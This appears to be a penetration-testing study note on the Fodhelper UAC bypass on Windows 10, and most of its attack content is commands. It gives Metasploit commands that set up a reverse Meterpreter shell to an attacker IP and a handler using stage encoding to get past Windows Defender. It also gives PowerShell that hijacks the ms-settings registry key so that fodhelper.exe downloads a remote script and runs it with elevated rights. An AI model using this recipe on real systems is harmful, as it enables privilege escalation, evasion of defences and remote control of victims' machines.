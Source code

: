 ## FodHelper UAC Bypass

`Fodhelper.exe` application is used to manage optional features like region-specific keyboard settings.

The Fodhelper binary runs as high integrity, and is vulnerable to exploitation due to the way it interacts with the the current user's registry.

Fodhelper tries to locate the following registry key, which does not exist by default in Windows 10: `HKCU:\Software\Classes\ms-settings\shell\open\command`

If we create the registry key and add the `DelegateExecute` value, Fodhelper will search for the default value (`Default`) and use the content of the value to create a new process.

### Metasploit UAC bypass module (Not working)

AMSI stops the default Metasploit `fodhelper` module from bypassing UAC and even kills the existing Meterpreter session.

target `1` is equivalent to Windows x64.

```
use exploit/windows/local/bypassuac_fodhelper
show targets
set target 1
sessions -l
set session 1
set payload windows/x64/meterpreter/reverse_https
set lhost 192.168.119.120
set lport 444
exploit
```

### Improving Fodhelper

Meterpreter payload has been flagged after the 2nd stage payload has been sent.

=> Windows Defender monitored the network interface and subsequently detected the unencrypted and unencoded second stage.

=> Avoid this by enabling the advanced `EnableStageEncoding` option along with `StageEncoder` in Metasploit.

```bash
msfconsole -qx "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST 192.168.119.120;set LPORT 443;set EnableStageEncoding true;set StageEncoder encoder/x64/zutto_dekiru;run;"
```

```pwsh
New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe (New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run4.txt') | IEX" -Force

New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

C:\Windows\System32\fodhelper.exe
```
